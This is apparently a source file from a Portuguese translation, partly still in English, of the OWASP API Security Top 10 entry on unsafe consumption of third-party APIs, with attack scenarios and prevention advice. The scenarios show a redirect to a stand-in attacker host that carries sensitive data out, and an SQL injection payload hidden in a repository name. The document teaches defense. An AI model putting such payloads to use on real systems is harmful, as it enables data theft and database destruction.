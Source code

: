 # API10:2023 Unsafe Consumption of APIs

| Agentes Ameaça/Vetores Ataque | Falha Segurança | Impactos |
| - | - | - |
| Específico da API : Abuso **Fácil** | Prevalência **Comum** : Deteção **Moderado** | Técnico **Severo** : Específico Negócio |
| Exploiting this issue requires attackers to identify and potentially compromise other APIs/services the target API integrated with. Usually, this information is not publicly available or the integrated API/service is not easily exploitable. | Developers tend to trust and not verify the endpoints that interact with external or third-party APIs, relying on weaker security requirements such as those regarding transport security, authentication/authorization, and input validation and sanitization. Attackers need to identify services the target API integrates with (data sources) and, eventually, compromise them. | The impact varies according to what the target API does with pulled data. Successful exploitation may lead to sensitive information exposure to unauthorized actors, many kinds of injections, or denial of service. |

## A API é vulnerável?

Developers tend to trust data received from third-party APIs more than user
input. This is especially true for APIs offered by well-known companies.
Because of that, developers tend to adopt weaker security standards, for
instance, in regards to input validation and sanitization.

The API might be vulnerable if:

* Interacts with other APIs over an unencrypted channel;
* Does not properly validate and sanitize data gathered from other APIs prior
  to processing it or passing it to downstream components;
* Blindly follows redirections;
* Does not limit the number of resources available to process third-party
  services responses;
* Does not implement timeouts for interactions with third-party services;

## Example Attack Scenarios

### Scenario #1

An API relies on a third-party service to enrich user provided business
addresses. When an address is supplied to the API by the end user, it is sent
to the third-party service and the returned data is then stored on a local
SQL-enabled database.

Bad actors use the third-party service to store an SQLi payload associated with
a business created by them. Then they go after the vulnerable API providing
specific input that makes it pull their "malicious business" from the
third-party service. The SQLi payload ends up being executed by the database,
exfiltrating data to an attacker's controlled server.

### Scenario #2

An API integrates with a third-party service provider to safely store sensitive
user medical information. Data is sent over a secure connection using an HTTP
request like the one below:

```
POST /user/store_phr_record
{
  "genome": "ACTAGTAG__TTGADDAAIICCTT…"
}
```

Bad actors found a way to compromise the third-party API and it starts
responding with a `308 Permanent Redirect` to requests like the previous one.

```
HTTP/1.1 308 Permanent Redirect
Location: https://attacker.com/
```

Since the API blindly follows the third-party redirects, it will repeat the
exact same request including the user's sensitive data, but this time to the
attacker's server.

### Scenario #3

An attacker can prepare a git repository named `'; drop db;--`.

Now, when an integration from an attacked application is done with the
malicious repository, SQL injection payload is used on an application that
builds an SQL query believing the repository's name is safe input.

## How To Prevent

* When evaluating service providers, assess their API security posture.
* Ensure all API interactions happen over a secure communication channel (TLS).
* Always validate and properly sanitize data received from integrated APIs
  before using it.
* Maintain an allowlist of well-known locations integrated APIs may redirect
  yours to: do not blindly follow redirects.


## References

### OWASP

* [Web Service Security Cheat Sheet][1]
* [Injection Flaws][2]
* [Input Validation Cheat Sheet][3]
* [Injection Prevention Cheat Sheet][4]
* [Transport Layer Protection Cheat Sheet][5]
* [Unvalidated Redirects and Forwards Cheat Sheet][6]

### External

* [CWE-20: Improper Input Validation][7]
* [CWE-200: Exposure of Sensitive Information to an Unauthorized Actor][8]
* [CWE-319: Cleartext Transmission of Sensitive Information][9]

[1]: https://cheatsheetseries.owasp.org/cheatsheets/Web_Service_Security_Cheat_Sheet.html
[2]: https://www.owasp.org/index.php/Injection_Flaws
[3]: https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html
[4]: https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html
[5]: https://cheatsheetseries.owasp.org/cheatsheets/Transport_Layer_Protection_Cheat_Sheet.html
[6]: https://cheatsheetseries.owasp.org/cheatsheets/Unvalidated_Redirects_and_Forwards_Cheat_Sheet.html
[7]: https://cwe.mitre.org/data/definitions/20.html
[8]: https://cwe.mitre.org/data/definitions/200.html
[9]: https://cwe.mitre.org/data/definitions/319.html
